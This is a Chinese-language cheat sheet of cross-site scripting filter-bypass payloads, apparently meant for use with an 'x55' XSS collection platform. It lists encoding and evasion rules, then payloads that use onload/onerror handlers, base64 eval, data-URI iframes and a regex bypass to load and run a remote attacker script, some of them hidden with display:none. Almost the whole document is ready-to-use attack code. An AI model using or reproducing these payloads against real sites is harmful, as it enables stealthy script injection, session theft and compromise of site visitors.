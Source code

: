 # x55-bypass

---

### 规则

```
1.x55平台做了http重定向https，//无论解析成http和https都可以使用；x55平台地址“？”后面可以不要
2.标签与第一个属性之间可以用“/”代替空格
3.引号内容可以转10进制或者16进制
4.style=display:none  #设置成无显示，PS：有些标签不一定支持
5.域名可以换成真实IP、url编码、双字节编码、16进制、8进制
```



### 常用

```
<BODY/ONLOAD=$.getScript("js地址")>
```



### 绕过规则

```
https://www.freebuf.com/articles/web/153055.html
```



### 网站含jq可用该函数

```
<img/src=# style=display:none onerror=$.getScript("js地址")>
```




### 短，无script标签

```
<BODY/ONLOAD=alert('123')>   
<SVG/ONLOAD=alert('123')>
```



### base64

```
<img style=display:none src=# onerror=eval(atob('YWxlcnQoJzEyMycp'))>
YWxlcnQoJzEyMycp => alert('123')
```



### data:text/html  # 目前只能测试能在iframe上使用

```
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E -> <script>alert(1)</script>
```



### 绕过<script src>的正则

```
<SCRIPT a=">" SRC="//xxx.com/xxxx"></SCRIPT>   
```



### 当fuzz出可以执行js代码的标签后，执行在当前页面添加script标签语句

```
<img src=# onerror=s=createElement('script');body.appendChild(s);s.src='js地址';>
```



### 可用（不看伪装效果，动静较大）

```
<IFRAME SRC=# onmouseover=$.getScript("js地址")></IFRAME>  
<input/onmouseover=$.getScript("js地址")>
```

